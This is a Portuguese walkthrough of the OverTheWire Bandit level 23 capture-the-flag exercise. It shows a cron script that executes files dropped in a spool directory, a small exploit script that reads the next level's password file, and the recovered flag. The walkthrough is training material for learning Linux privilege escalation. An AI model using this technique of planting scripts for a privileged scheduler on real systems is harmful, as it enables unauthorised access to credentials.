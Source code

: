# 🕵️ Bandit 23

Um programa está sendo executado automaticamente em intervalos regulares a partir do cron , o agendador de tarefas baseado em tempo. Procure em /etc/cron.d/ a configuração e veja qual comando está sendo executado.


## Solução

Verificando o processo que está sendo executado no cron para este nível:
```
bandit23@bandit:~$ cd /etc/cron.d
bandit23@bandit:/etc/cron.d$ cat cronjob_bandit24 
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

Analisando o funcionamento do script que será executado, notamos que ele irá percorrer todos os arquivos do diretório /var/spool/bandit24 e executa-los caso o owner seja bandit23. Após a execução excluirá o arquivo.

Dessa forma, o que precisamos fazer é criar um arquivo para buscar a flag por nós no momento em que o cron disparar este job.

Vamos começar criando um diretório para obter a flag:
```
bandit23@bandit:/etc/cron.d$ mkdir /tmp/bdt24
bandit23@bandit:/etc/cron.d$ cd /tmp/bdt24
```

Em seguida, precisamos somente de um arquivo que faça a leitura da flag e salve em um arquivo em nosso diretório criado. Para isso, podemos fazer um simples cat no arquivo e direcionar a saida para o arquivo .txt:
```
bandit23@bandit:/tmp/bdt24$ nano exploit.sh

#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/bdt24/pass.txt
```

Com o script pronto, precisamos conceder permissão de execução para o arquivo shell e de escrita para o arquivo texto. Dessa forma, quando copiarmos o arquivo para o diretório var/spool, quando o cron executar novamente a rotina, escreverá a flag no nosso arquivo txt:
```
bandit23@bandit:/tmp/bdt24$ touch pass.txt
bandit23@bandit:/tmp/bdt24$ chmod 777 exploit.sh 
bandit23@bandit:/tmp/bdt24$ chmod 666 pass.txt 
bandit23@bandit:/tmp/bdt24$ cp exploit.sh /var/spool/bandit24/
```

Após esperar um tempo até o cron executar o job novamente (cerca de 1 minuto), podemos verificar o retorno no arquivo:
```
bandit23@bandit:/tmp/bdt24$ cat pass.txt 
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

Obtemos a flag! 🥷

## Conceitos utilizados

- Construção de shell script
- permissões de arquivos

## Links úteis

-
-

